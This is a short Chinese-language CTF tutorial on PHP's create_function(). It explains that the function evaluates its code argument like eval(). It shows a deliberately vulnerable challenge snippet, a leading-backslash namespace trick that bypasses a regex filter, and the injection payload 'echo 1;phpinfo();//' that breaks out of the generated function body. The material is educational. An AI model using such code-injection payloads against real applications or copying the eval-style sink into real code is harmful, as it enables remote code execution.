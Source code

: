 ## create_function

先看定义

```php
create_function(string $args, string $code): string
// 动态创建一个函数
// 第一个参数是这个函数需要传递的参数，第二个参数是函数的代码
```

用文档里的示例很一目了然。

使用`create_function()`：

```php
<?php
$newfunc = create_function('$a,$b', 'return "ln($a) + ln($b) = " . log($a * $b);');
echo $newfunc(2, M_E) . "\n";
?>
```

上面这个相当于：

```php
<?php
$newfunc = function($a,$b) { return "ln($a) + ln($b) = " . log($a * $b); };
echo $newfunc(2, M_E) . "\n";
?>
```

输出的内容也一样。

第二个参数里面的内容相当于是进行了一次`eval()`。因此，这里可以进行绕过。

```php
if(isset($_POST['ctf'])){
    $ctfshow = $_POST['ctf'];
    if(!preg_match('/^[a-z0-9_]*$/isD',$ctfshow)) {
        $ctfshow('',$_GET['show']);
    }

}
```

这里正则可以通过命名空间绕过，`\create_function()`和`create_function()`等价。

然后，我们`GET`传入`echo 1;phpinfo();//`便可以直接执行`phpinfo()`函数。

原因如下：

```php
create_function('', 'echo 1;phpinfo();//');

# 相当于

function func(){echo 1;}phpinfo();//}
```

我们传入的括号将函数闭合，然后使用双斜杠将后面的括号注释，从而完成直接执行了`phpinfo()`。
